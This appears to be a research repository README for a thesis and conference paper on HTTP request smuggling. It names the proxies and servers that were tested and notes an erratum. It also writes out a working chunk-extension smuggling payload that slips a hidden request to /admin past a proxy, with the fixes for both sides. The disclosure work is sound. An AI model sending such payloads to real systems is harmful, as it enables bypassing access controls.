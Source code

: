 
### [Quick link to research](https://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf)

# Bachelor's thesis on HTTP Request Smuggling

During the spring of 2021, we (Mattias Grenfeldt and Asta Olofsson) wrote our bachelor's thesis in Computer Science at KTH Royal Institute of Technology in Sweden. We studied HTTP Request Smuggling. The thesis can be found [here](https://urn.kb.se/resolve?urn=urn:nbn:se:kth:diva-302371).

Once all issues found have been fixed by the affected vendors, we will publish here the code used for the test harness, the test requests and which systems are which in the anonymized report.

## IEEE EDOC 2021 paper

The bachelor's thesis was later rewritten into a conference paper with the help of Viktor Engström, and Robert Lagerström. The paper was submitted to [IEEE EDOC 2021](https://ieee-edoc.org/2021/) and got accepted.

## Systems investigated

Here is the de-anonymization of the systems we investigated:

- P1 - [Apache HTTP Server (httpd)](http://httpd.apache.org/)
- P2 - [Nginx](https://nginx.org/)
- P3 - [Apache Traffic Server](https://trafficserver.apache.org/)
- P4 - [HAProxy](http://www.haproxy.org/)
- P5 - [Traefik](https://traefik.io/)
- P6 - [Caddy](https://caddyserver.com/)
- S1 - [Gunicorn](https://gunicorn.org/)
- S2 - [Actix](https://actix.rs/)
- S3 - [Node.js](https://nodejs.org/en/)
- S4 - [Puma](https://puma.io/)
- S5 - [hyper](https://hyper.rs/)
- S6 - [Golang (net/http)](https://pkg.go.dev/net/http)

## Errata

After the thesis was published, we realized that we had interpreted the situation with `Transfer-Encoding: chunked` and HTTP version 1.0 incorrectly. It was very unclear what a correct interpretation was. So we opened an issue on the specification. [Here](https://github.com/httpwg/http-core/issues/879) is the discussion that followed. This resulted in a change in the specification.

## Chunk extensions technique

After the thesis was published, we discovered another HRS technique. It is in the EDOC paper however. As far as we know, this is a new technique. The technique uses chunk extensions. You can read more about them here:

- https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1
- https://www.rfc-editor.org/errata/eid4667

Here is how an example request with chunk extensions could look like:

```
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunked
 
5 ; a=b
hello
0

```

We found a proxy which parses chunk extensions incorrectly. It reads the chunk size and then reads any character until it encounters a `\n`. It doesn't verify whether there was a CR before the LF.

This could be combined with many of the servers tested since most servers allow any characters as part of the extension (particularly LF) but read the line until they reach CRLF. So we arrive at the following attack (all lines are terminated by CRLF):

```
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
2;\nxx
4c
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
0
```

The proxy will see the two chunks:

```
xx
```
and:
```
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
```

While the server will only see one chunk:

```
4c
```

and another request after it.

The fix for the server is to parse the chunk extension according to the RFC and not allow LF characters in it. The fix for the proxy is to verify that there is a CRLF there.
